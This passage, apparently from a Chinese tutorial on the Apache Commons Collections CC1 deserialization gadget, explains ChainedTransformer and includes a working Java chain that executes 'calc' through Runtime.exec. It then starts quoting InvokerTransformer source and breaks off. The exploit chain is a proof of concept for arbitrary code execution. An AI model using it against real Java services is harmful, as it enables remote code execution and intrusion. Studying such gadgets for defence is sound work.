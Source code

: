- ChainedTransformer

作⽤是对每个传入的 transformer 都调用其 transform 方法，即前⼀个回调返回的结果，作为后⼀个回调的参数传⼊

![1](./img/293.png)

这三个 transformer 组合在一起即可实现任意代码执行：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;

public class cc1 {

     public static void main(String[] args){
          ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {
                          String.class, Class[].class }, new Object[] {
                          "getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {
                          Object.class, Object[].class }, new Object[] {
                          null, new Object[0] }),
                  new InvokerTransformer("exec",
                          new Class[] { String.class }, new Object[]{"calc"})});
          chain.transform(123);
     }
}
```

先看一下命令执行点，InvokerTransformer：

```java
public InvokerTransformer(String methodName, Class[] paramTypes, Object[] args) {
        super();
        iMethodName = methodName;
        iParamTypes = paramTypes;
        iArgs = args;
    }

public Object transform(Object input) {
        if (input == null) {
            return null;
        } else {
            try {
                Class cls = input.getClass();
```